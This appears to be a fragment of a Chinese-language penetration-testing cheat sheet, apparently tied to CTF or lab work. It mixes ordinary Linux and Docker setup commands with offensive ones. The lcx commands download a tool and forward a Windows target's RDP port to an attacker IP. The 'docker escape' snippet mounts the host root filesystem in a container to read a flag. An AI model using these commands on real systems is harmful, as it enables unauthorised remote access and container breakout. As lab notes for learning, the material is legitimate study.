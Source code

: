   
lcx端口转发  

```
wget http://www.vuln.cn/wp-content/uploads/2016/06/lcx_vuln.cn_.zip
# windows靶机
lcx.exe -slave 192.168.110.128(攻击机IP) 4444 127.0.0.1 3389

# kali
./portmap -m 2 -p1 4444 -h2 192.168.110.128 -p2 5555

```

## Linux其他命令  
  
强制终止一个进程  

```
netstat -tulnp 
sudo kill -9 $(sudo lsof -t -i:8888)

```

## docker系列  
  
docker安装，修改源  

```
deb http://mirrors.aliyun.com/ubuntu/ jammy main restricted universe multiverse
deb-src http://mirrors.aliyun.com/ubuntu/ jammy main restricted universe multiverse

deb http://mirrors.aliyun.com/ubuntu/ jammy-security main restricted universe multiverse
deb-src http://mirrors.aliyun.com/ubuntu/ jammy-security main restricted universe multiverse

deb http://mirrors.aliyun.com/ubuntu/ jammy-updates main restricted universe multiverse
deb-src http://mirrors.aliyun.com/ubuntu/ jammy-updates main restricted universe multiverse

deb http://mirrors.aliyun.com/ubuntu/ jammy-backports main restricted universe multiverse
deb-src http://mirrors.aliyun.com/ubuntu/ jammy-backports main restricted universe multiverse

```


```
echo '源' > /etc/apt/sources.list
apt-get update
apt-get install docker.io

```

### docker逃逸  
  
低版本  

```
docker run --rm -it -v /:/tmp/1/ wordpress /bin/bash
cd /tmp/1
cat flag_3

```
